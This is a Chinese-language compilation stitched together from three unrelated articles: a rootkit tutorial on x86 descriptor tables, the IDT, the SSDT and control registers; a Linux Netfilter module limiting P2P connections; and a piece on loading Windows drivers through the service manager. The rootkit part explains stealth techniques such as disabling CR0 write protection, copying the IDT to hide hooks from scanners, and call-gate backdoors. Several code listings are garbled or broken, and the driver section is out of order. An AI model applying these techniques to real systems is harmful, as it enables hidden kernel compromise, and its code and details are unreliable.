**描述符（或段）检查：**通常要访问全局描述符表（GDT），并检查段描述符（segment descriptor）。段描述符包含一个称为描述符特权级别（Descriptor Privilege Level，DPL）的值。DPL包含了调用进程所需的环境号（0到3）。若DPL需求低于调用进程的环级别（有时称为当前权限级别，Current Privilege Level，CPL），则访问被拒绝并内存检查终止。

**页目录检查：**对整个页表（即整个内存页范围）需要检查用户/超级用户位。若该位设置为0，则只有“超级用户”程序（环0、1和2）能够访问该内存页范围。若调用进程不是“超级用户”，则内存检查终止。

**页面检查：**对单个内存页面执行该检查。若已完成页目录检查，则对正在处理的单个页面进行页检查。类似于页目录，对每个页面都要检查一个用户/超级用户位。若该位设置为0，则只有“超级用户”程序（环0、1和2）能够访问该页面。只有当进程能够到达并通过本检查并且没有任何访问禁止，它才可以访问内存页。

Windows系列操作系统并不真正使用描述符检查。相反，Windows只依赖于环0和环3（有时称为内核模式和用户模式）。因此可以只使用页表检查中的用户／超级用户位来控制对内存的访问。内核模式的程序运行在环0上，总是能够访问内存。用户模式的程序则运行在环3上，只能访问标记为“user”的内存。

#### 4.3.2 分页和地址转换

内存保护机制的用途不仅限于安全。大多数现代操作系统都支持虚存，这使得系统上的每个程序都拥有自己的地址空间。它还允许程序使用远比实际可用“内存”多得多的内存。例如，RAM大小为256 MB的计算机不会限制每个程序只能使用256MB内存。程序如果需要的话，能够很容易地使用1GB内存。额外的内存只需存储在磁盘上的分页文件(paging file)中。虚存允许多个进程在所用的内存总量大于已安装的物理RAM时同时执行，并且每个进程都拥有自己的内存空间。

内存页可以标记为页换出(paged out)，即存储在磁盘上而不是RAM中。当搜索这种内存页时，处理器将会中断。中断处理程序将该页读回到内存之中，并将其标记为页换入(paged in)。在任一特定时刻，大多数系统只允许将全部可用内存的一小部分进行页换入。物理RAM较少的计算机需要一个经常被访问的很大的分页文件。反之，物理RAM越多意味着访问分页文件越少。

每当程序读取内存时，都必须指定一个地址。对于每个进程，该地址必须转换为实际的物理内存地址。这是重要的：进程使用的地址与数据驻留的实际物理地址并不一致。需要通过转换例程来标识正确的物理存储位置。

例如，若NOTEPAD.EXE搜寻虚地址0x0041FF10的内存内容，则实际的物理地址可以转换成例如0x01EE2F10。若NOTEPAD.EXE执行指令“mov eax, 0x0041FF10”，则读入到EAX中的值实际会存储在物理地址0x01EE2F10。该地址从虚地址转换成物理地址。

#### 4.3.3 多个进程使用多个页目录

理论上，操作系统可以通过单个页目录来维护多个进程、进程间的内存保护以及磁盘上的分页文件。但是，如果只存在着一个页目录，则虚存将只有一个转换映射。这意味着所有进程都必须共享一内存空间。在Windows NT/2000/XP/2003系统中，每个进程都有自己的内存空间——它们并不共享。

大多数可执行文件的起始地址是0x00400000。多个进程如何能够使用同一个虚拟地址，而不会在物理内存中发生冲突？答案是使用多个页目录。

系统上的每个进程都维护唯一的页目录，都拥有自己私有的CR3寄存器的值，这意味着每个进程都有一个独立且唯一的虚存映射。因此，两个不同的进程可以同时访问内存地址0x00400000，但将其转换成两个独立的物理内存地址。这也是为何一个进程无法查看另一个进程内存的原因。

尽管每个进程都有唯一的页表，但通常所有进程对0x7FFFFFFF上的内存空间都进行同样的映射。该内存范围是为内核保留的，而内核内存不管哪个进程在运行都是一致的。

即使在环0级别上运行时，也会有一个活动进程上下文，它包括该进程的机器状态（例如保存的寄存器值）、进程的环境、进程的安全令牌以及其他参数。为了便于讨论，它还包含CR3寄存器，从而也包含了活动进程的页目录。rootkit开发者应该考虑到对进程页表的改动不仅会在用户模式中影响该进程，还会在该进程处于上下文中时影响到内核，这可以用于高级潜行技术。

#### 4.3.4 进程和线程

rootkit开发者应该知道，管理运行中代码的主要机制是线程，并非进程，Windows内核基于线程而不是进程的数量对进程进行调度。假如存在两个进程：一个是单线程的，另一个具有9个线程，则系统将为每个线程分配10%的处理时间，单线程的进程只能获得10%的CPU时间，而具有9个线程的进程会得到90%的时间。当然，这是一个人为示例，因为其他因素（例如优先级）也在调度过程中发挥作用，但以下事实仍存在：当其他所有因素相同时，调度工作完全基于线程数目，而不是进程数目。

> 什么是进程？在Windows系统中进程只是一组线程共享以下数据的一种方式：

- 虚拟地址空间（即CR3的值）。
- 访问令牌，包括SID。
- Win32内核对象的句柄表。
- 工作集（进程“拥有”的物理内存）。

rootkit出于多种目的（如潜行和代码注入）必须处理线程和线程结构。它不必创建新进程，而是创建新线程并将其分配给现有进程，需要创建一个全新进程的情况很少。

当切换到一个新线程的上下文时，旧线程的状态会保存起来，每个线程都有自己的内核堆栈，因此将线程状态推入到线程内核堆栈的顶部，若新线程属于另一个进程，则将新进程的页目录地址加载到CR3中。页目录地址可以在进程的KPROCESS结构中找到，一旦发现了新线程的内核堆栈，就从该堆栈的顶部弹出新线程的上下文，并开始执行新线程。若rootkit修改了进程的页表，该修改将作用于该进程中的所有线程，因为这些线程都共享同一个CR3值。

### 4.4 内存描述符表

CPU用来跟踪信息的一种表中可以包含描述符。描述符有多种类型，它们可以由rootkit插入或修改。

#### 4.4.1 全局描述符表

通过GDT(Global Descriptor Table)全局描述符表，可以实现大量技巧。GDT可以用于映射不同的地址范围；也可导致任务切换，通过SGDT指令可以发现GDT的基地址，通过LGDT指令可以更改GDT的位置。

#### 4.4.2 本地描述符表

LDT(Local Descriptor Table)本地描述符表，允许每个任务拥有唯一的描述符集合。当指定一个段时，表指示符位(table-indicator bit)可以在GDT和LDT之间进行选择，LDT可以包含和GDT相同类型的描述符。

#### 4.4.3 代码段

在访问代码内存时，CPU使用在代码段(Code Segment，CS)寄存器中指定的段，代码段可以在描述符表中加以指定。任何程序，包括rootkit，都可以通过执行far call、far jump或far return指令来修改CS寄存器，其中CS从堆栈顶部弹出。令人感兴趣的是，只需将描述符中的R位设置为0就可以执行代码。

#### 4.4.4 调用门

在LDT和GDT中可以放置一种特殊的描述符，称为调用门(call gate)。如果将描述符设置为调用门，程序可以执行段间调用(far call)，当该调用发生时，可以指定一个新的环级别。调用门允许用户模式程序通过执行函数调用进入内核模式，这对于rootkit程序来说是一个令人感兴趣的后门。同样的机制可用于段间跳转(far jump)，但只有当调用门的权限级别等于或低于执行跳转的进程时才能进行这种操作。

当使用了调用门时，会忽略地址——只有描述符编号起作用。调用门的数据结构会将被调用函数的代码位置告知CPU，可以选择性的从堆栈中读取参数。例如，可以创建一个调用门，使得调用者将秘密命令参数放到堆栈上。

### 4.5 中断描述符表

中断描述符表寄存器(Interrupt Descriptor Table Register，IDTR)可以存储中断描述符表(Interrupt Descriptor Table，IDT)在内存中的基地址（起始地址）。IDT用于查找处理中断所用的软件函数，它是非常重要的，计算机中大量的低层功能都使用了中断。例如，每当键盘上进行击键就产生中断信号。

IDT是一个由256项组成的数组——每个中断对应其一项，这意味着每个处理器至多支持256个中断。另外，每个处理器拥有自己的IDTR，因此也拥有自己的中断表。若计算机包含多个CPU，则部署在该计算机上的rootkit必须考虑到每个CPU都有自己的中断表。

当中断发生时，可以从中断指令或可编程中断控制器(Programmable Interrupt Controller，PIC)中获取中断编号。在这两种情况下，都通过中断表寻找要调用的软件函数，该函数有时称为向量(vector)或中断服务例程(Interrupt Service Routine，ISR)。

如果处理器处于保护模式中，则中断表是由256个8字节项组成的数组，每项包含ISR地址以及其他一些与安全相关的信息。

为了获得中断表的内存地址，必须读取IDTR。这由SIDT(Store Interrupt Descriptor Table)指令完成，也可通过LIDT(Load Interrupt Descriptor Table)指令修改IDTR的内容。

rootkit所用的一种技巧是创建一个新的中断表，通过它隐藏对原始中断表进行的修改。病毒扫描仪能够检查原始IDT的完整性，但rootkit可以制作IDT的副本，修改IDTR，然后可以惬意地在无法检测到的情况下，对复制的IDT进行修改。

SIDT指令以如下格式存储IDTR的内容：

```
/* sidt returns idt in this format */
typedef struct
{
    unsigned short IDTLimit;
    unsigned short LowIDTbase;
    unsigned short HiIDTbase;
} IDTINFO;
```

攻击者通过SIDT指令所提供的数据能够找到IDT的基地址并转储它的内容。要记住IDT最多包含256项，其中每项都包含一个中断服务例程的指针，各项的结构如：

```
// entry in the IDT: this is sometimes called
// an "interrupt gate".
#pragma pack(1)
typedef struct
{
    unsigned short LowOffset;
```

```c
unsigned short Selector;
unsigned char unused;
unsigned char Segment_Type:4; //0/0E, 1/0E/...
unsigned char System_Segment:1;
unsigned char DPL:2; //descriptor privilege...
unsigned char Present;
int EntryPoint;
#pragma pack()
```

该数据结构有时称为中断门（interrupt gate），用于在内存中定位处理器中断事件的函数。通过中断门，用户模式的程序可以调用内核模式的例程。例如，一个系统调用中断的目标位于IDT表中的偏移量0x2E处。

系统调用在内核模式中处理，尽管可以从用户模式中对其进行初始化，其他的中断门可以作为后门由rootkit放置，rootkit也可以钩住现有的中断门。

可以使用以下代码示例作为访问IDT的向导：

```c
#define MAKE_IDT_ENTRIES 0xFF

//define MAKEULONG(a,b)
//(unsigned long)((unsigned short)(a) | ((unsigned long)(unsigned short)(b) << 16))

idt_entry = MAKEULONG((unsigned long)selector, (unsigned long)offset);

//page back()
```

IDT中的最大项数是256。

```c
#define MAX_IDT_ENTRIES 0xFF
```

### 4.6 系统服务调度表

使用SIDT得了返回的数据来获取IDT的基地址，然后遍历每一项，并将一些数据显示到调试输出信息中。

```c
for (entries = (IDTENTRY*)MAKEULONG((GateInfoWORD) & 0xffff,
                                    (GateInfoWORD >> 16));
     count < MAX_IDT_ENTRIES;
     count++, addr++) {
    if (IDTENTRY* ...)
    ...
}

unsigned long addr;
addr = MAKEULONG((unsigned long)offset, (unsigned long)selector);

short entry = (entry < 255);
IDTENTRY* idt_entries;
unsigned long count;

interrupt %SR 0x00 0x00
count, addr;

DebugPrint(...);
return STATUS_SUCCESS;
```

上述代码示例解释了如何分析IDT。对IDT并没有进行实际修改。然而，这些代码很容易演化成更复杂工具的基础。

除了中断门之外，IDT还可以包含任务门（task gate）和陷阱门（trap gate）。陷阱门与中断门的区别只存在于它能够被屏蔽中断所中断，而中断门则不能。另一方面，在任务是一个非常过时的处理器特性，它可以用于强制x86处理器的任务切换。由于Windows并不使用该特性，因此这里不对其进行示例讲解。

在Windows操作系统中不应将任务与进程相混淆。x86 CPU的任务是通过任务切换段（Task Switch Segment，TSS），一种最初用于调试硬件执行任务管理的工具来管理的。Linux、Windows以及其他许多OS都通过软件实现任务切换，大多数情况下并不使用底层硬件机制。

系统服务调度表用于查询处理特定系统调用的函数。该工具在操作系统而不是CPU中实现。程序有两种调用系统调度的方式：使用中断0x2E，或者使用SYSENTER指令。在Windows XP及其后的系统上，程序通常使用SYSENTER指令，而较老的平台则使用中断0x2E。这两种机制是完全不同的，尽管它们能够得到相同的结果。执行系统调用会导致在内核中调用KiSystemService函数。该函数从EAX寄存器中读取系统调用的编号，并在SSDT中查询该调用。该函数还将由EDX寄存器所指向的系统调用参数从用户模式堆栈中复制到内核模式堆栈。某些rootkit会钩入这个处理过程之中以嗅探数据，更改数据参数或重定向系统调用。

### 4.7 控制寄存器

除了系统的各个表之外，还存在着一些控制CPU重要特性的特殊寄存器。rootkit可对它们加以利用。

#### 4.7.1 控制寄存器0

控制寄存器包含一些控制处理器如何运作的数据位。例如，禁用内核内存访问保护机制的一种常见方法就是修改控制寄存器CR0。

控制寄存器最初出现于低级的286处理器中，以前称为机器状态字(machine status word)。随着386处理器系列的发布，重新将其命名为控制寄存器0(Control Register 0, CR0)。直到486系列的处理器出现后，CR0中才添加了写保护(Write Protect, WP)位，WP位控制是否允许处理器写入标记为只读属性的内存页。该位设置为0的话，会禁用内存的保护机制。这对于打算向OS数据结构中写入信息的内核rootkit来说是非常重要的。

下列代码显示了如何使用CR0技巧来禁用和重新启用内存保护机制。

```
// UN-protect memory
__asm
{
    push eax
    mov eax, CR0
    and eax, 0FFFEFFFFh
    mov CR0, eax
    pop eax
}
// do something
// RE-protect memory
__asm
{
    push eax
    mov eax, CR0
    or eax, NOT 0FFFEFFFFh
    mov CR0, eax
    pop eax
}


```

#### 4.7.2 其他控制寄存器

还有4个控制寄存器用于管理处理器的其他功能。CR1是未使用的或未在文档中说明。CR2当处理器处于保护模式时用于存储上一个导致页故障的地址。CR3存储页目录的地址。CR4在Pentium系列（以及486的后期版本）处理器中才实现，它处理的事务包括诸如何时启用虚拟8086模式——即何时在Windows NT上运行旧的DOS程序。若启用了该模式，处理器将自陷(trap)CLI、STI和INT等特权指令。这些额外的寄存器对于rootkit来说通常是没有用处的。

#### 4.7.3 EFlags寄存器

EFlags寄存器也是重要的。首先，它处理陷阱标志(trap flag)。如果设置了该标志，处理器将步进执行。rootkit可以使用诸如步进执行之类的特性来检测调试器是否正在运行或向病毒扫描软件隐藏自身；通过清除中断标志(interrupt flag)，就可以禁用中断。另外，还可通过I/O Privilege Level来修改大多数基于Intel的操作系统所采用的基于环的保护系统。

## 五、备注

### 5.1 附言

至此关于rootkit的基础介绍就告一段落了。本来是想写一篇关于RK的完全解读的，但是由于最近rootkit.com的被攻击，我无法获得一些重要的资料和代码，只能用手上的资料写了这篇文章，所以《详述RK》就变成了《RK基础》了。等到rootkit.com恢复后，我会写一篇《RK高级技巧》和本篇补成一套。

正如前面说的：“rootkit并非天生邪恶，也并不总是被黑客所使用。rootkit只是一种技术，理解这一点是很重要的。美好或邪恶的意图取决于使用它们的人。”希望大家能过记住这一点，那么这篇文章便是有意义的。

### 5.2 参考资料

- 《Windows内核原理与实现》 潘爱民 电子工业出版社
- 《Rootkits——Windows内核的安全防护》 (美)Greg Hoglund，(美)James Butler著 清华大学出版社
- 《决战恶意代码》 (美)Ed Skoudis Lenny Zelter 电子工业出版社
- 《软件调试》 张银奎 电子工业出版社
- 《天书夜读—从汇编语言到Windows内核编程》 谭文、邵坚磊 电子工业出版社
- 《现代操作系统》 (荷)Andrew.s.Tanenbaum
- 《黑客反汇编揭秘》第二版 （俄）克里斯·卡巴斯基 电子工业出版社等众多资料。

# 防火墙 Linux 内核 2.4

对于一些中小型企业、办公室用户或者仅具有有限带宽资源的用户来说，他们一般采用 NAT（Network Address Translation，网络地址转换）来接入 Internet。如果内部用户肆无忌惮地使用 P2P 进行下载或者在线播放，势必影响到其他用户正常使用网络；如果把 P2P 的端口全部封杀掉，用户就享受不到 P2P 所带来的好处了。

## 一、Netfilter 弱构架？

### 1. Linux 防火墙发展历程

最开始的 ipfwadm 是 Alan Cox 在 Linux Kernel 发展的初期，从 FreeBSD 的内核代码中移植过来的。后来经历了 ipchains，再经由 Paul Russell 在 Linux Kernel 2.3 系列的开发过程中发展了 Netfilter 这个架构。而用户空间的防火墙管理工具，也相应的发展为 iptables。在经历了 Linux Kernel 2.4 和 2.6 的发展以后，的确可以说“Netfilter iptables”经受住了大量用户广泛使用的考验。本文将基于 Linux 2.6 的内核来进行叙述。

### 2. 什么是 Netfilter

Netfilter 是 Linux 2.6 内核实现的防火墙框架，它比以前任何一般 Linux 内核的防火墙子系统都要强大。Netfilter 提供了一个抽象、通用化的框架，该框架定义一个子功能，实现的就是包过滤系统。Netfilter 由一系列基于协议栈的钩子组成，这些钩子都对应某一具体的协议。
| 钩子 | 说明 |
|---|---|
| NF_IP_PRE_ROUTING | 数据包进入网络协议栈后首先经过的处理点 |
| NF_IP_LOCAL_IN | 发往本机的数据包经过的处理点 |
| NF_IP_FORWARD | 转发数据包经过的处理点 |
| NF_IP_LOCAL_OUT | 本机产生的数据包经过的处理点 |
| NF_IP_POST_ROUTING | 数据包离开协议栈前经过的处理点 |

| 钩子 | 作用 |
|---|---|
| NF_DROP | 丢弃这个数据包 |
| NF_ACCEPT | 保留这个数据包 |
| NF_STOLEN | 拿走这个数据包 |
| NF_QUEUE | 将数据包放入队列 |
| NF_REPEAT | 再次调用这个钩子函数 |

### 3. Netfilter 在 IPv4 中的结构

#### 4. 注册和注销Netfilter钩子函数

在上面提到了 nf_hook_slow() 函数会按顺序调用在该检查点注册的钩子函数，那么钩子函数是怎样注册的呢？注册一个钩子函数是一个围绕 nf_hook_ops 结构体的很简单的过程，在 linux/netfilter.h 中有这个结构体的定义：

```c
struct nf_hook_ops
{
    struct list_head list;
    nf_hookfn *hook;
    int pf;
    int hooknum;
    int priority;
};
```

这个结构体的成员列表主要是用来维护注册的钩子函数列表的，对于用户来说，在注册时并没有多么重要。list 是一个只有 prev 和 next 两个域的双向链表，各检查点的钩子函数就是通过它来按照 priority 的值由小到大链接在一起的，nf_hook_slow() 函数就是靠这个表来调用该检查点的钩子函数的。hook 是指向 nf_hookfn 函数的指针，也就是为这个钩子将要调用的所有函数。nf_hookfn 同样定义在 Linux/netfilter.h 这个文件中。pf 字段指定了协议族（Protocol family），Linux/socket.h 中定义了可用的协议族。对于 IPv4，使用 PF_INET。hooknum 域指明了为哪个检查点安装这个钩子函数，也就是表1中所列出的条目中的一个。priority 域表示在运行时这个钩子函数执行的顺序。我们选择 NF_IP_PRI_FIRST 这个最高优先级来运行编写的内核模块。

## 二、连接跟踪

### 1. 什么是连接跟踪

每个网络连接包含以下信息：源地址、目的地址、源端口和目的端口，叫作套接字对（Socket Pairs）、连接状态（TCP协议）和超时时间等。防火墙把这些信息叫做状态（Stateful），能够检测每个连接状态的防火墙叫作状态包过滤防火墙。它除了能够完成简单包过滤防火墙的包过滤工作外，还在自己的内存中维护一个跟踪连接状态的表，比简单包过滤防火墙具有更大的安全性。以前，经常需要打开1024以上的所有端口来放行应答的数据。现在有了连接跟踪，就不需再这样了，因为可以只开放那些有应答数据的端口，其他的都可以关闭。这样就安全多了。

### 2. 连接跟踪工作原理

连接跟踪的工作原理并不十分复杂，以一个防火墙接受到的连接为例。

收到一个初始化TCP连接的SYN包为例，这个带有SYN的网络协议包将被防火墙的规则库检查。该数据包将在规则库中依次进行比较。如果检查出所有的规则都不匹配，那么该包将被丢弃。这个包是一个包含连接跟踪（RST）的网络协议包，将被发送到远端的主机。要是该数据包通过防火墙的规则检查被防火墙接收，那么这个连接的信息将被保存在一个连接跟踪信息表中，并表明该包所应有的状态。这个连接跟踪信息表位于内核模式下，其后的网络协议包（也就是在SYN包之后不带SYN标志的数据包），就将和此连接跟踪信息表中的内容进行比较。

根据在信息表中该包的信息，来决定该数据包是丢弃还是被接收。利用连接跟踪可以提高防火墙系统的性能，因为每一个数据包首先不是和规则库进行比较，而是和连接跟踪信息表进行比较。只有含有SYN的数据包到来时，包才和规则库进行比较。因为所有的数据包与连接跟踪信息表的比较都是在内核模式下进行的，所以速度很快。

可见连接跟踪的工作原理是，检测每一个有效连接的状态，并根据这些信息决定网络数据包是否能够通过防火墙。该技术在协议栈底层截取数据包，然后分析这些数据包，并且，将当前数据包及其状态信息和前一时刻的数据包及其状态信息进行比较，从而得到该数据包的控制信息，达到保护网络安全的目的。

### 3. UDP协议的连接跟踪

UDP协议的连接是无状态的，但仍然可以为类似的方式来维护这些连接。当一个UDP包通过防火墙的规则检查并被加入到连接跟踪信息表中，并增加TCP超时值时，这次连接也将被添加到连接跟踪信息表中，一样设置一个连接的超时时间值。在这个时间值内，返回的任何一个源地址、目的地址，以及源端口、目的端口相匹配的数据包都将被允许通过。

### 4. 包处理过程

数据包进入系统后，在图1中，可以看到有三种可能流程：

```text
① 发往本机上层的包（INPUT链）NF_IP_PRE_ROUTING→NF_IP_LOCAL_IN。

② 由本机转发的包（FORWARD链）：NF_IP_PRE_ROUTING→NF_IP_FORWARD→NF_IP_POST_ROUTING→NF_IP_POST_ROUTING。


```

主机接收到需要它转发的数据包后，首先经过NF_IP_PRE_ROUTING，如果没有任何钩子函数的话，系统将做出路由决定，决定该数据包的走向。然后数据包会经过NF_IP_FORWARD、NF_IP_POST_ROUTING，离开系统并被发送到网络上。

③从本机发出的包(OUTPUT链): NF_IP_LOCAL_OUT->NF_IP_POST_ROUTING。

当本地产生数据包时，该数据包首先经过NF_IP_LOCAL_OUT，数据包经过NF_IP_POST_ROUTING后被转发到网络中。

在每一条路径上，连线跟踪、包过滤和地址转换都注册了相应的函数，并创建与之相关的数据结构，完成其功能。每条路径上功能点的顺序如图2所示。
在图2中，CONNTRACK代表连线跟踪，DNAT代表目的地址转换，SNAT代表源地址转换，FILTER代表包过滤。可以看到，CONNTRACK在路径上出现了两次，其作用是，第一个点上它创建连线跟踪的结构，这个结构会在后面的地址转换和包过滤中被使用，在第二个点上它将连线跟踪的结构加到系统的连接表中。通过查看ip_conntrack_core.c源代码可以看出ip_conntrack_hash这一双向链表是可供外部访问的，这为后面编写内核代码来读取该表“窥视”表中数据来获取所要的信息提供了可能。

### 5. 限制P2P连接数内核模块

由于Linux源代码的开放与自由，用户可以通过编写内核模块装载到内核中，利用Netfilter的钩子来达到任何目的。由于P2P连接都是TCP或者UDP连接，因此将利用连线跟踪里面“状态”这一概念来入手进行内核模块的编写，在有数据包进来的时候先遍历内存中的连线跟踪表，查看里面该IP有多少已建立的连接，若已达到所限制的数目，则把刚进来的数据包丢掉，从而实现连接数的限制。

不妨假设一个简单的网络拓扑图如图3所示，模块流程图如图4所示。

该Linux服务器已通过iptables工具配置好了NAT以及一些访问策略等，这里说明一下FORWARD链的配置，该链至少要有如下配置:

```
#iptables -t nat -a POSTROUTING -o eth0 -s 192.168.0.0/16 -j MASQUERADE

#iptables -a FORWARD -i eth0 -m state --state ESTABLISHED RELATED -j ACCEPT

#iptables -a FORWARD -s 192.168.0.0/16 -j ACCEPT
```

```
#iptables -a FORWARD -j ACCEPT


```
主要代码如下:

```
static struct nf_hook_ops nfho;

/*实施连接限制的IP地址段，以网络字节顺序表示
*/

static unsigned long lim_min_ip=0x0201A8C0;//"192.168.1.2"

static unsigned long lim_max_ip=0xFEFFA8C0;//"192.168.255.254"

static int lim_conn=20;

/*每IP限制的连接数为20*/

static int count_conntrack_iterate(const struct ip_conntrack_tuple_hash * hash,const unsigned long our_ip,int * pcount)
{
    struct ip_conntrack * ct=hash->ctrack;
    int protonum;
    IP_NF_ASSERT(hash->ctrack);
    MUST_BE_READ_LOCKED (&ip_conntrack_lock);
```


```c
/*只考虑原方向上的连线跟踪*/
if(DIRECTION(hash))
    return 0;
protonum=ct->tuplehash[IP_CT_DIR_ORIGINAL].tuple.dst.protonum;
if(protonum !=17 && protonum !=6)
    /*如果不是TCP和UDP连接*/
    return 0;
/*若连线跟踪元组里面的源IP地址为当前数据包的IP地址，则计数加一*/
if(cur_ip == ct->tuplehash[IP_CT_DIR_ORIGINAL].tuple.src.ip)
    (*pcount)++;
return 0;
}

static void count_conntrack(const unsigned long ip,int* pcount)
{
    unsigned int i;
    READ_LOCK(&ip_conntrack_lock);
    /*遍历整个连线跟踪元组哈希表*/
    for (i=0;i<ip_conntrack_htable_size;i++)
    {
        LIST_FIND(&ip_conntrack_hash [i],count_conntrack_iterate,struct ip_conntrack_tuple_hash *,ip,pcount);
    }
    READ_UNLOCK(&ip_conntrack_lock);
}

/*钩子函数定义*/
unsigned int limitp2p_hook_func(unsigned int hooknum,struct sk_buff**skb,const struct net_device *in,const struct net_device *out,int(*okfn)(struct sk_buff *))
{
    struct sk_buff *sb=*skb;
    /*若不在实施连接限制的IP地址段，交给下一层处理*/
    if(sb->nh.iph->saddr<lim_min_ip||sb->nh.iph->saddr>lim_max_ip)
        return NF_ACCEPT;
    struct ip_conntrack *ct;
    enum ip_conntrack_info ctinfo;
    /*若有连线跟踪说明该连接已建立或者未建立正等待对方回应*/
    if(ct)
        return NF_ACCEPT;
    int cur_conn=0;
    /*根据数据包中源IP地址遍历连线跟踪哈希表获得已建立连线数*/
    count_conntrack(sb->nh.iph->saddr,&cur_conn);
    if(cur_conn>lim_conn)
        return NF_DROP;
    else
        return NF_ACCEPT;
}

/*模块初始化函数*/
int limitp2p_init_module()
{
    nfho.hook=limitp2p_hook_func;
    /*钩子函数名*/
    nfho.hooknum=NF_IP_PRE_ROUTING;
    /*Netfilter框架在IPv4的检查点*/
    nfho.pf=PF_INET;
    /*采用的协议簇，这里采用IPv4*/
    nfho.priority=NF_IP_PRI_FIRST;
    /*使编写的函数具有优先调用*/
    /*向Netfilter框架登记钩子函数*/
    nf_register_hook(&nfho);
    return 0;
}

/*模块卸载函数*/
void limitp2p_cleanup_module()
{
    /*向Netfilter框架取消钩子函数登记*/
    nf_unregister_hook(&nfho);
}

module_init(limitp2p_init_module);
module_exit(limitp2p_cleanup_module);
```

本内核模块在Linux 2.6内核下通过编译并能正常工作，Linux提供的基于内核的Netfilter框架，具有通用性和可扩展性的特点，使得开发人员可结合自己的需要编写内核模块来对数据包进行处理。文中所述模块只是实现了很简单的功能，完全可以进行扩充，例如加上检测的端口等，或者与iptables相结合，这样就可以在用户空间通过iptables的参数来配置该模块了。

# 浅说驱动程序的加载过程

听风

在开始之前，首先简要介绍一下本文的主题，这篇文章是关于将内核模块加载到操作系统内核的方法的介绍。所谓“内核模块”，指的便是通常所说的驱动程序。不过因为加载到内核的程序通常是用来操作硬件的，所以驱动程序的名字要更常见些。在以下的叙述中，我将主要使用“驱动程序”这个词。众所周知，Windows操作系统将程序划分为用户模式和内核模式，在x86计算机上，用户模式的程序运行在Ring3，而内核模式的程序运行在Ring0。运行在Ring3级别上的程序有诸多限制，这方面的例子是不胜枚举的。对于用户模式程序，主要使用由操作系统提供的面向用户模式的程序接口来调用操作系统提供的功能，这就是常说的Win32 APIs。从应用程序的角度来看，操作系统提供的函数接口是相当丰富的，甚至很少有人知道windows提供的API的确切的数目。可是从Hacking的角度来看，API提供的功能却是远远不能满足Hacker们的好奇心的。操作系统对于用户模式与内核模式的划分，本意自然是出于维持系统稳定的目的，可某些时候我们并不领情。

关于把代码加载到内核中并执行的讨论，主要是围绕着Rootkit这一主题进行的。不得不承认Rootkit是高深的技术，绝非看一两本书，编写几个例程就能掌握的。本文不是对Rootkit细节的描述，但却介绍了通常Rootkit是如何将自己加载到内核的。在本文中，我将循序渐进的展示一个驱动程序的编译，加载，以及执行的过程。在进行接下来的正式的叙述之前，我假设读者已经对C语言有一定的理解，并对win32程序设计略知一二。实际上，正如大多数Windows程序一样，所谓的加载，其实只是对几个特定的函数的顺序调用，其间并不涉及复杂的算法，所以读者没必要担心自己无法理解文章内容。

在介绍如何加载驱动程序之前，首先介绍如何编译一个基本的驱动程序。

通常，编写Windows系统的驱动程序必然要用到微软提供的WDK，即Windows Driver Kits。WDK是新近才有的名字，过去同样的东西被称作是DDK，即Driver Development Kits。后者已经过时，新学驱动程序开发的程序员，推荐使用WDK。

如何下载和安装WDK的内容就不提了。安装完成之后，在开始菜单中会有Windows Driver Kits文件夹，其中包含的Build Environments文件夹是要注意一下的，稍后我还会提到这里。编译驱动程序通常使用build工具来构建的，一个简单又不简单的驱动程序的代码如下：

```c
#include <ntddk.h>
NTSTATUS DriverEntry(IN PDRIVER_OBJECT pDriverObject,
IN PUNICODE_STRING pRegistryPath){
    __asm{
        mov eax,0
        call eax
    }
    return STATUS_SUCCESS;
}
```

内核驱动程序通常是用C语言编写的，但这里我为了省事，在程序使用了一点简单的汇编。代码极少，所以这个程序很简单。但观察代码可以发现，这段代码竟然试图访问地址0。这要是在用户模式，这个程序肯定被Windows无情的终止掉。但这段代码最终是在内核模式作为驱动程序运行的。结果嘛，则是发生蓝屏死机（BSoD，Blue Screen of Death）。蓝屏死机可不经常见到，虽说蓝屏死机在Windows 98的时代是家常便饭。但后来更新的操作系统很少会发生这样的事情。而这个程序不简单的地方就在这里。

对于参数表中出现的IN我也要略微解释一下。这是个空的宏，它用来说明这个参数是要求调用者输入一个值的。与之对应的宏是OUT，这个宏的意义恰好相反，它表示某个参数是要向调用者返回一个值的。这一对宏在驱动程序开发中极为常见，但却又很容易迷惑初学者，所以在这里提一下。

在明白了这些之后，我们新建一个项目文件夹，把以上代码保存为simpledriver.c。使用build工具构建驱动程序，除代码文件外，还需要两个额外的文件，即SOURCES和MAKEFILE两个无扩展名的文件。本例中，SOURCES文件的内容如下：

```
TARGETNAME=ROOTKIT
TARGETPATH=obj
TARGETTYPE=DRIVER
SOURCES=simpledriver.c
```

```text
ACCESS;
SERVICE_ALL_ACCESS
DRIVER
START
SERVICE_ERROR
NORMAL
lp?...
NULL, NULL, NULL, NULL
... 


```

的操作句柄。第二和第三个参数分别指定了服务的“服务名”和“显示名”。对服务的访问是具有权限控制的，在创建完成服务后，同时得到服务的操作句柄，这个句柄所具有的权限，就是由第四个参数指定的。第五、第七两个参数不做过多解释，第六个参数要额外注意一下。因为例子中提供的也测试驱动是会导致系统蓝屏死机的，所以这里指定为 SERVICE_DEMAND_START，意思是此服务只能由程序调用启动。如果读者指定了开机自动启动或者是其他自动启动选项，那么连续蓝屏就是不可避免的了。第一次执行以上代码将创建服务，再次执行改代码将启动服务。

如果服务已经被创建，那么 CreateService() 就不会成功。这时我们只需要打开已经存在的服务就可以了。这一步调用 OpenService() 并获得服务操作句柄，然后进一步调用 StartService() 启动服务。启动服务的时候，系统调用我们编写的驱动程序的入口函数。在驱动的初始化函数没有返回之前，StartService() 函数不会返回。在我们这里，它也不可能返回。与以上程序同时提供的还有一个 unload.exe 程序，这个程序可以卸载服务而已，代码十分简单，就不在这里展示了。

将驱动程序加载到内核的标准方法是：首先调用 OpenSCManager() 函数打开所谓的 SCM，这是系统的服务管理器。这里我们提到“服务”两字，基本可以认为它等价于“驱动”二字。通常我们把那些用户级的后台程序也称为服务，但是此服务非彼服务也。服务可以用用户模式程序提供，也可以由内核驱动提供，所以微软将其统称为服务也未尝不可。调用成功后，我们获得 SCM 的操作句柄。下一步就要建立服务了。调用 CreateService() 建立服务的函数的指定了服务是由驱动程序提供的。此函数参数颇多，但是却都很简单。简单说明一下，第一个参数是上一步得到的 SCM。
